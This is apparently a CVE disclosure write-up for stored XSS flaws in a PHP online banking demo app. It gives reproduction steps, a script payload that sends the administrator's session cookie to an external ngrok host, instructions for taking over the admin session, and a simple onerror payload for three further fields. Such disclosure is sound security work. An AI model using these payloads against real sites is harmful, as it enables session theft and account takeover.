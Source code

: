 # Tittle: Online Banking System Stored XSS

# Author: (Erik451)

# Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)

# Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)

# Version: OBS 1.0

# CVE: CVE-2022-26644
-  Description: A XSS issue in OBS v1.0 allows remote attackers to inject JavaScript in the description parameters. XSS to Privilege Escalation
- Client can craft a malicious payload, when the administrator goes to "account managment menu" the payload will be executed and the administrator cookies will be sent to the attacker server.

### Steps to reproduce:
-   1- Go to [http://localhost/banking/client/?page=user](http://localhost/banking/client/?page=user)
	-   2- Edite your profile name and paste the payload
	- 3- Using a ngrok http server to get the request with the administrator cookie
	- 4- If the admin goes to the "manage accounts"  the payload will be execute

Payload used to steal the session Cookie: 
```js
<script>var i=new Image;i.src=`https://2c32-81-9-194-204.ngrok.io/?c=${document.cookie}`;</script>
```

![ngrokclient](https://user-images.githubusercontent.com/47476901/160634443-a0b5afaa-a2f0-404f-9bb2-a3437e534c6d.png)


#### **Admin Session**

The administrator goes to the manage accounts menu and will execute the payload in background.
Now we have the admin cookie

![admincookie](https://user-images.githubusercontent.com/47476901/160634422-8cd4820c-447a-457e-8a66-7e3203fc6f27.png)


Edit our cookie with the new admin cookie, reload admin page and now we are administrators.

![loginasadmin](https://user-images.githubusercontent.com/47476901/160634399-08084a58-6c77-47b8-97c7-27c9fb274d8c.png)


---

#### Other XSS

Payload used: `<img src="x" onerror=prompt(1)>`

**Announcements Tittle**

-  1- Go to [http://web.com/admin/?page=announcements/manage_announcement](http://web.com/admin/?page=aannouncements/manage_announcement)
-  2- Create or edite an announcement and paste the payload
		
![XSSannouncement](https://user-images.githubusercontent.com/47476901/160634336-a3d0ff72-878b-4102-9eff-5759581f3695.png)
    
![XSSannouncement2](https://user-images.githubusercontent.com/47476901/160634352-303bc621-c09d-4993-86e0-316b183809ab.png)

**Accounts Name**

-  1- Go to [http://web.com/admin/?page=accounts/manage_account](http://web.com/admin/?page=accounts/manage_account)
-  2- Create or edite an accounts and paste the payload, client account will execute the payload on his session.

**System Info Name**	

 -  1- Go to [http://web.com/admin/?page=system_info](http://web.com/admin/?page=system_info)
 -  2- Edite the app/system info and paste the payload
 -  3-  This is the configuration of the app, all clients will see the tittle on the app, the XSS will be executed.
 
![XSSsysinfo](https://user-images.githubusercontent.com/47476901/160634484-659cfb45-6e0e-446a-be77-76296ee56383.png)

